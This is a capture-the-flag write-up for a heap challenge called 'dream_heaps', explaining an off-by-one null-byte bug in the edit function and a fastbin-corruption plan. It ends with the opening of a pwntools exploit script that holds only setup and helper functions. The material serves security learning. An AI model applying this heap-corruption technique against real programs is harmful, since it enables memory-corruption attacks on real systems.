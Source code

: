 
- Read dream: read the content of  a dream 
  
- Edit dream: change the content of  dream

- Delete dream: delete a dream and set his pointer to null

- Exit

The vulnerability arises in the edit dream function, that permits us to set a null byte just after the content we inserted 
  ```
    if ( v1 <= INDEX )
    {
      buf = (void *)HEAP_PTRS[v1];
      v2 = SIZES[v1];
      read(0, buf, v2);
      *((_BYTE *)buf + v2) = 0;
    }
  ```

### Solution
We can set to null the least significat byte of the next chunk, decreasing his size.
Then we can shrink a chunk and get a chunk twice, one in unsorted bin the other in smallbin/fastbin.

We choosed to craft a fake chunk and the insert it in the fastbin, so after we could apply fastbin
corrupt and insert the following chunk: 0x601ffa

More info on the commented code below.

```
from pwn import *
import time

debug = int(sys.argv[1])
online = False

if( debug == 0):
  online = True
  r = remote("chal1.swampctf.com", 1070)
  libcz = ELF("./libc6.so")
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  mainz = ELF("./dream_heaps")
  r = mainz.process()
  if(debug == 2):
    gdb.attach(r, """source ./script.py""")
  
def halt():
  while True:
    log.info( r.recvline() )

def write(size, data):
  r.recvuntil("> ")
  r.sendline("1")
  r.recvuntil("How long is your dream?")
  r.sendline(str(size))
  r.recvuntil("the contents of this dream?")
  r.send(data)

def read(index):
  r.recvuntil("> ")
  r.sendline("2")
  r.recvuntil("you like to read?")
  r.sendline(str(index))

```